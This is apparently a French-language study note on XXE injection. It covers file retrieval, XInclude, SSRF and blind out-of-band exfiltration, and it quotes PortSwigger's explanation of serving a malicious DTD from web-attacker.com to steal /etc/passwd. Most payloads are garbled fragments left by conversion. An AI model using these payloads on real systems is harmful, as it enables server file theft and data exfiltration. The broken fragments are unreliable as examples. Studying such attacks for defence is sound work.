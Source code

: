 **Fonctionnalité possible grâce aux XXE :**

Récupérer des fichiers :

On définit des externals entities contenant des fichiers puis on le reçoit avec la réponse de l'application.

Faire des [SSRF](evernote:///view/240045035/s396/adfa3887-142b-b144-62c3-f94da0de4d58/9fdda52f-c858-15a6-e4c5-a5747f596bad "evernote:///view/240045035/s396/adfa3887-142b-b144-62c3-f94da0de4d58/9fdda52f-c858-15a6-e4c5-a5747f596bad") attacks :

On récupère des données du système cible comme des fichiers par exemple.

Extraire des données en Out-of-Band grâce au Blind XXE :

On créer une requête xml qui demande au server d'envoyer la réponse à un endpoint qu'on controle.

Chopper des données via les messages d'erreur grâce au Blind XXE :

Tout est dans le nom.

---

**Exploitation :**

**Récupération de fichier :**

- **Basic exploit entity :**
    
    - Injection :
        
        - ]>
        - &xxe;
    - Bon c'est simple, on créer une entités "xxe" qui réfère au fichier /etc/passwd sur la cible. Puis on fait référence à celui-ci grâce à &xxe; ne pas oublier le ; après.
- **Xinclude attacks :**
    
    - Injection :
        
        - <xi:include parse="text" href="[file:///etc/passwd"/></foo>](file:///etc/passwd%22/%3E%3C/foo%3E "file:///etc/passwd%22/%3E%3C/foo%3E")
    - Pour comparer, faut voir xmlns comme un import en python. Le xi tu peux mettre n'importe quoi à la place c'est un peu comme une variable qui référence un lien.
    - Ensuite, sur la deuxième ligne, on définit un élément de xi grâce à xi:include. Cet élément a deux attributs, parse:"text" qui indique que le contenu de l'inclusion sera traité comme du texte. Et href="[file:///etc/passwd"](file:///etc/passwd%22 "file:///etc/passwd%22") c'est un fichier que l'attaquant veut inclure.
    - Conséquences :
        - Si le serveur XML est mal configuré, il pourrait peut-être nous renvoyer le contenu du fichier car en fait on fait référence au fichier donc le serveur pourrai comprendre qu'on veut voir le contenu.

**SSRF attacks with XXE :**

- **Basic exploit entity :**
    - Injection :
        
        - ]>
        - &xxe;
    - C'est simple, on défini une entité "xxe" qui réfère à l'url. Puis on fait référence à celui-ci grâce à &xxe;

**Blind XXE :**

[https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind "https://portswigger.net/web-security/xxe/blind")  
**Out-of-band blind XXE :**  
**  
**

- Configuration basique pour récupérer les données sur ton domaine (burp collaborator par ex) :
    - Exploiting blind XXE to exfiltrate data out-of-band
        
    
    - Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
        
    
    - An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:
        
    
    - ">
    - %eval;
        
    - %exfiltrate;
        
    
    - This DTD carries out the following steps:
        
    
    - Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
        
    - Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
        
    - Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
        
    - Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.
        
    
    - The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:
        
    - [http://web-attacker.com/malicious.dtd](http://web-attacker.com/malicious.dtd "http://web-attacker.com/malicious.dtd")
        
    
    - Finally, the attacker must submit the following XXE payload to the vulnerable application:
        
    - DOCTYPE foo [<!ENTITY % xxe SYSTEM
    - "[http://web-attacker.com/malicious.dtd](http://web-attacker.com/malicious.dtd "http://web-attacker.com/malicious.dtd")"> %xxe;]>
        
    
    - This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.
        
    - Note
        
    
    - This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead.
        
- **Basic exploit entity :**
    - Injection :
        
        - ]>
        - &xxe;
    - C'est simple, faut juste controler un domaine (payant ou burpsuite collaborator payant aussi).
- **Basic exploit paramètre :**
    - Injection :
        - %xxe; ]>
    - Là on déclare un paramètre grâce à % suivi du nom du paramètre (xxe) qui réfère à un domaine qu'on controle. Ensuite, on l'appelle grâce à %xxe; donc ça va envoyer une requete HTTP au domaine controlé et on pourra exflitrer des données.